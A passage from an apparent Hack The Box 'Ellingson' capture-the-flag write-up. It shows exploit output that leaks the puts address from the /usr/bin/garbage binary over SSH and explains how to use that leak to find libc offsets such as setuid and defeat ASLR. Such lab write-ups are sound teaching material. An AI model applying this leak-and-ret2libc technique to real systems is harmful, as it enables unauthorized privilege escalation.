 When we run it we get this:

```bash
python3 exploit.py 
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: '/usr/bin/garbage': Done
[*] PUTS LEAK: 0x7f384daaf9c0
```

### With puts leaked, calculating addresses of the functions to be used

We have successfuly leaked puts, now take the last 3 bytes `9c0` and we'll use [here](https://libc.blukat.me/) to calculate the libc address:

![image9](/assets/images/htb-ellingson/ellingson9.png)

Click on all symbols and CTRL+F setuid

![image10](/assets/images/htb-ellingson/ellingson10.png)

Now if we substract our leak of `puts` to the offset of `puts` that is on libc, we have leaked the first libc address, if we want to use its function we only have to add the first libc address and the offset.
